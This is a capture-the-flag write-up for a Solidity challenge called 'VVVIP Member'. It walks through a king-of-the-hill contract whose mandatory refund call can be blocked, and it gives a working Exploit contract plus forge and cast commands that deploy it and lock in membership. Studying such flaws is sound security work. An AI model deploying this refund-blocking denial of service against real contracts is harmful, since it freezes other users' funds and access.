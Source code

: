 Becoming a VVVIP Member always has the downside, like how easily you can be replaced by other, but what if we can make ourselves forever a VVVIP member? That's the task that we are going to tackle in this challenge, the *isSolved()* condition as seen below is quite unique &nbsp;  
&nbsp;  

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.25;

import "./VVVIP.sol";

contract Setup{
    VVVIP public immutable vvvip;
    bool public solved;

    constructor() payable {
        require(msg.value == 15 ether);
        vvvip = new VVVIP();
        vvvip.becomeVVVVIP{value: 3 ether}();
    }

    function TryIfSolve() public payable {
        try vvvip.becomeVVVVIP{value: 10 ether}() {
            (address amIVVVVIP, ) = vvvip.getVVVVIP();
            require(amIVVVVIP != address(this), "You are still VVVIP member!");
            solved = false;
        } catch {
            solved = true;
        }
    }

    function isSolved() public view returns(bool){
        return solved;
    }

    receive() external payable{}

}
```
&nbsp;  
initially, the Setup Contract is the current VVVIP Member with 3 Ether worth, but there is a function *TryIfSolve()*, this function will run in order to change the *solved()* value, if the Setup succeed to reclaim his Membership, then we are going to receive our money back and we lost our VVVIP Member status, but if we check our balance using this command &nbsp;  
&nbsp;  
```bash
cast balance -r $RPC_URL $WALLET_ADDR
```
&nbsp;  
Turns out we only have 7 Ether, so how come we can hold our status as the VVVIP Member if the Setup is going to reclaim it with 7 Ether? Let's see the VVVIP Contract first &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.25;

contract VVVIP{
    address private currentVVVIP;
    uint256 private currentBalance;

    function becomeVVVVIP() external payable{
        require(msg.value > currentBalance, "You don't have enough money to become VVVIP!");
        (bool refund, ) = currentVVVIP.call{value: currentBalance}(""); 
        require(refund, "The fund is not given back!");
        if(currentVVVIP == address(0)){
            currentVVVIP = msg.sender;
            currentBalance = msg.value;
        }
        currentVVVIP = msg.sender;
        currentBalance = msg.value;
    }

    function getVVVVIP() public view returns(address, uint256){
        return (currentVVVIP, currentBalance);
    }

}
```
&nbsp;  
There we can see the logic, so the first person to interact with it will automatically become the VVVIP Member, which is the Setup with 3 Ether worth. When someone tries to challenge the VVVIP Member, if the Ether send to challenge is less than the current VVVIP Member worth, it will revert, else it will refund the worth of the previous VVVIP member and set the new VVVIP Member alongside with the Ether worth. &nbsp;  
&nbsp;  
The logic there seems flawless, but what if I told you we don't have to be the one to interact with it, we can just create an Exploit Contract that has no way of receiving Ether. Why this would work? Since the way of refund is required to be successful, if we just make it failed everytime, our VVVIP Member status won't be revoked, so here is the Exploit Contract. &nbsp;  
&nbsp;  

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.25;

import "./VVVIP.sol";
import "./Setup.sol";

contract Exploit{
    Setup public setup;
    VVVIP public vvvip;

    constructor(address payable _setup) payable{
        require(msg.value == 4 ether);
        setup = Setup(_setup);
        vvvip = VVVIP(setup.vvvip());
    }

    function exploit() public {
        vvvip.becomeVVVVIP{value: 4 ether }();
    }

}
```
&nbsp;  
We just need to deploy it and give it 4 Ether to works &nbsp;  
&nbsp;  
```bash
// Deploying the Exploit Contract
forge create src/vvvip-member/$EXPLOIT_FILE:$EXPLOIT_NAME -r $RPC_URL --private-key $PK --constructor-args $SETUP_ADDR --value 4ether

// Interacting with the Exploit
cast send -r $RPC_URL --private-key $PK $EXPLOIT_ADDR "exploit()"
```
&nbsp;  
Running the command above and make the Exploit contract become the forever VVVIP Member will solved the challenge!